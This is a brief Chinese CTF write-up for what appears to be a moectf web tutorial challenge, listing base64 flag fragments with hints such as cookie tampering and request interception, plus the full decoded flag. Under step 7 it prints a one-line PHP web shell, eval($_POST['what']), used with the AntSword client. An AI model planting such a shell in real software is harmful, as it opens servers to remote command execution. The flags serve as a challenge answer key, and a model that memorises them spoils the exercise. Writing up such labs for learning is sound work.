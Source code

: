 #

bW9lY3Rme0FmdEVyX3RoMXNfdFVUMHJfSV90aDFrZV9VX2trbm93X1dlQn0=

flag1和2: bW9lY3Rme0FmdEV

按照要求, 然后更改cookie
flag3: yX3RoMXN

看逻辑, 给cookie传值就行
flag4: fdFVUMHJ

发请求, 抓包, 改包
flag5: fSV90aDF

大小写不敏感, 使用FLAG即可
flag6: rZV9VX2t

## 7

蚁剑连接: 密码是what

eval($_POST['what']);

在 根目录下 /

flag7: rbm93X1dlQn0=

base64解码:  moectf{AftEr_th1s_tUT0r_I_th1ke_U_kknow_WeB}